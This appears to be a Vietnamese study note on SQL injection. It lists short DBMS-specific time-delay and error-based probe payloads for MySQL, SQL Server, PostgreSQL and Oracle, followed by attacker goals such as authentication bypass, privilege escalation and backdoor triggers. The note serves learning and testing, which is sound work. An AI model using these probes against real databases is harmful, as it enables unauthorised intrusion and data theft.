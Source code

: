 
1. Các phát hiện đối với mỗi loại db như kiểu SQL server thì có dấu hiệu gì

2. Ngoài thu thập dữ liệu từ db qua SQLi thì còn có thể làm được gì thêm 

# Phát hiện SQL Injection trên các loại CSDL

Mỗi hệ quản trị cơ sở dữ liệu (DBMS) có cú pháp và hàm riêng.  
Dưới đây là một số kỹ thuật phát hiện đặc trưng:

## MySQL
- **Tạo độ trễ (Time-based)**  
  ```sql
  SLEEP(5)
  ```
- **Gây lỗi hiển thị (Error-based)**  
  ```sql
  UPDATEXML(1, concat(0x7e, (SELECT @@version), 0x7e), 1)
  ```

## SQL Server (MSSQL)
- **Tạo độ trễ**  
  ```sql
  WAITFOR DELAY '0:0:5'
  ```
- **Gây lỗi ép kiểu**  
  ```sql
  AND 1 = CONVERT(int, 'text')
  ```

## PostgreSQL
- **Tạo độ trễ**  
  ```sql
  pg_sleep(5)
  ```
- **Gây lỗi ép kiểu**  
  ```sql
  CAST((SELECT version()) AS int)
  ```

## Oracle
- **Tạo độ trễ**  
  ```sql
  dbms_pipe.receive_message('a', 5)
  ```
- **Gây lỗi chia cho 0**  
  ```sql
  SELECT to_char(1/0) FROM dual
  ```

> Việc kết hợp payload đặc thù từng DBMS giúp:
> - Xác định hệ thống đang sử dụng loại cơ sở dữ liệu nào.  
> - Dễ dàng phát hiện và khai thác SQLi hơn.  


# Ứng dụng SQLi ngoài việc thu thập dữ liệu

Ngoài việc lấy dữ liệu nhạy cảm, SQLi còn cho phép kẻ tấn công:

- **Bypass xác thực** → Đăng nhập không cần mật khẩu.  
- **Chèn, sửa hoặc xóa dữ liệu** → Làm thay đổi hoặc mất mát dữ liệu.  
- **Chiếm quyền điều khiển hệ thống** → Kết hợp với lỗ hổng khác để thực thi lệnh hệ điều hành.  
- **Phát hiện cấu trúc database** → Liệt kê bảng, cột, user DB.  
- **Leo thang đặc quyền** → Nếu tài khoản DB có quyền cao, có thể chiếm toàn bộ hệ thống.  
- **Tạo backdoor trong DB** → Cài đặt trigger hoặc stored procedure độc hại để duy trì truy cập.  
